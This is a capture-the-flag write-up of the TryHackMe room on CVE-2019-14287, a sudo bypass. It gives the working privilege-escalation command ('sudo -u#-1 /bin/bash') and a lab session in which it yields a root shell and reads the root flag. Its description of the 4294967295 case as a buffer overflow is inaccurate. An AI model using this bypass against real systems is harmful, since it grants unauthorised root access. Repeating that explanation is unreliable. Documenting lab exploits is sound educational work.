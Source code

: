 ```yaml
---
title: Sudo - Security Bypass (CVE:2019-14287)
author: Dimitrios Tsarouchas
date: 2021-01-23 20:55:00 +0800
categories: [CTFs, TryHackMe]
tags: [ctf, tryhackme, CVE-2019-14287]
pin: true
image: https://cdn.pixabay.com/photo/2013/07/13/12/31/penguin-159784_960_720.png
---
```


![Kenobi](https://cdn.pixabay.com/photo/2013/07/13/12/31/penguin-159784_960_720.png)

## Introduction

In this post we are going to exploit a vulnerability found in the `sudo` program by Joe Vennix in 2019. This vulnerability has been patched in newer versions of Linux but it may still be found in versions 1.8.27 and before. In the practical part we are going to use a machine from the TryHackMe room [Sudo Security Bypass](https://tryhackme.com/room/sudovulnsbypass){:target="_blank"}.  

### What is sudo?

In Linux operating systems `sudo` (or Super User DO) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy ([sudo.ws](https://www.sudo.ws/man/1.8.3/sudo.man.html){:target="_blank"}). A user can automatically inherit the permissons of the binary's owner (root) if will execute the binary with setuid permissions. Setuid permits users to run certain programs with esclated privilege ([computerhope.com](https://www.computerhope.com/jargon/s/setuid.htm#:~:text=Setuid%2C%20which%20stands%20for%20set,certain%20programs%20with%20escalated%20privileges.){:target="_blank"}).

## CVE-2019-14287 

The [CVE-2019-14287](https://nvd.nist.gov/vuln/detail/CVE-2019-14287){:target="_blank"} vulnerability gives to a local user or a program the ability  to execute commands as a superuser. 

In a Linux system a user can execute programs as other users by specifying their **UID** using the command `sudo -u#id <command>`. 

Even though root access from a local user is prohibited in the `/etc/sudoers` configuration file, Joe Vennix managed to bypass it by finding a flaw in the previous command. 

#### Lets understand it with the following example

We have a local user called Bob and we want to grant extra permissions to him and let him execute a program as if he is any other user but not the root user.

We will do this by configuring the `/etc/sudoers` file and adding the following line:
```terminal
Bob ALL=(ALL:!root) NOPASSWD: ALL
```
Adding the previous line to sudoers file will let Bob exexute any command as another user and prevent him from executing commands as the superuser (root). In some vulnerable versions of `sudo` we can bypass this restriction and execute commands with root privileges. By entering the user id equal to 0 (root UID) in the previous command it wouldn't work because we are not allowed to execute commands as the root user [exploit-db.com](https://www.exploit-db.com/exploits/47502){:target="_blank"}. 

According to Joe Vennix's findings there are two values that Sudo incorrectly read them as being 0 which is the root UID:

- -1
- 4294967295

Even though the sudoers file has been configured to restrict us from executing commands as root, by passing any of these two values in the user ID will give us root privileges.

```terminal
sudo -u#-1 <command>

or

sudo -u#4294967295 <command>
```

**There are two aspects of this vulnerability:**


When a UID of -1 is provided:
The binary interprets this as a request for no change in the user id, but since sudo is already executing with root privileges, it gives the user root access upon execution.

When a UID of 4294967295 is provided:
This large number causes the buffer for the sudo binary to be overflowed, since the defined range has its maximum limit for 10000; the buffer overflows and sudo processes the given integer as a request for no change in the user id, but since sudo executes with root permissions, after execution the system call gives root access.

Source: [datacellsolutions.com](https://datacellsolutions.com/2019/11/29/the-sudo-security-bypass-bug/){:target="_blank"}

## Exploting sudo

We will SSH into the ThryHackMe machine on port 2222 and try to escalate our privileges from a normal user to the root.

The credentials are already provided below:

- Username: tryhackme
- Password: tryhackme

```terminal
# ssh -p 2222 tryhackme@10.10.47.156                                       
The authenticity of host '[10.10.47.156]:2222 ([10.10.47.156]:2222)' can't be established.
ECDSA key fingerprint is SHA256:p8qxMPPV/x0AsbdLybMXoOPRBUR07uTTrEzgrZWuHKU.
Are you sure you want to continue connecting (yes/no/[fingerprint])? y
Please type 'yes', 'no' or the fingerprint: yes
Warning: Permanently added '[10.10.47.156]:2222' (ECDSA) to the list of known hosts.
tryhackme@10.10.47.156's password: tryhackme 
Last login: Fri Feb  7 00:14:41 2020 from 192.168.1.151
tryhackme@sudo-privesc:~$ whoami
tryhackme
tryhackme@sudo-privesc:~$ sudo -l
Matching Defaults entries for tryhackme on sudo-privesc:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User tryhackme may run the following commands on sudo-privesc:
    (ALL, !root) NOPASSWD: /bin/bash      

tryhackme@sudo-privesc:~$ sudo -u#-1 /bin/bash
root@sudo-privesc:~# whoami
root
root@sudo-privesc:~# pwd
/home/tryhackme
root@sudo-privesc:~# cat /root/root.txt
THM{l33t_s3cur1ty_bypass}

```

When we first connected to the remote machine and used the `whoami` command we found that we are the **tryhackme** user. 


Then we checked what commands we are allowed to run with sudo using the `sudo -l` command. 

As we can see above we are not allowed to run the `/bin/bash` file as the root user. The system administrator has configured the `/etc/sudoers` file with the instruction `(ALL, !root) NOPASSWD: /bin/bash` to prevent us from executing `/bin/bash` as superusers. 


Unfortunatelly for him the sudo version this machine is using is vulnerable and we are going to exploit it to get root privileges.
We will become root users using the `sudo -u#-1 /bin/bash` command. 


After the successfull execution of the command, using once more the `whoami` we can see that the name of the user is root, and we can also see that the shell has changed from `tryhackme@sudo-privesc:~$` to `root@sudo-privesc:~#`.

In order to find the **root.txt** flag which is stored under the `/root` folder we type `cat /root/root.txt` and since we are the root user we get the flag. 




